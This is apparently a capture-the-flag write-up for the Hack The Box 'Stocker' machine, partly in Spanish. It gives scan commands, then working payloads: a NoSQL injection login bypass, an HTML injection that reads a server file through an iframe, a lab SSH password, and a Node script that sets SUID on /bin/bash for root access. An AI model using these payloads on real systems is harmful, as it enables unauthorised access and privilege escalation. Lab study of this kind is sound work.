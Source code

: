 # Writeup - Stocker Linux Easy


ping -c 1 10.10.11.196 -R
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
nmap -sCV -p22, 80 10.10.11.196 -oN targetedPorts
gobuster dir -u http://stocker.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
gobuster for subdomains

exploiting nosql injection:

Updated Request

If you want to try sending the payload as JSON, update the Content-Type and ensure the server accepts JSON input:
```json
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 75
Origin: http://dev.stocker.htb
Connection: keep-alive
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{
        "username":{
                "$ne":"test"
        },
        "password":{
                "$ne":"test"
        }
}
```

Leaking the password via figuring out it's route index.js

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Content-Length: 383
Origin: http://dev.stocker.htb
Connection: keep-alive
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Priority: u=0

{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8d",
      "title": "<img src=\"xasdasdasd\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js height=100% width=100%></iframe>')\"/>",
      "description": "It's a red cup.",
      "image": "red-cup.jpg",
      "price": 32,
      "currentStock": 4,
      "__v": 0,
      "amount": 1
    }
  ]
}
```

una vez siendo user connectacndonos por ssh angoose@stocker.htb password: IHeardPassphrasesArePrettySecure
id
sudo -l
cd /root/

tenemos privilegio de ejecutar 
usr/bin/node usr/local/scripts/*js
el *js nos permite hacer un ../../../tmp/malicious.js
creamos un malicious.js en /tmp/
```js
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

hacemos sudo usr/bin/node /usr/local/scripts/../../../tmp/malicious.js
y un bash -p y somos root.


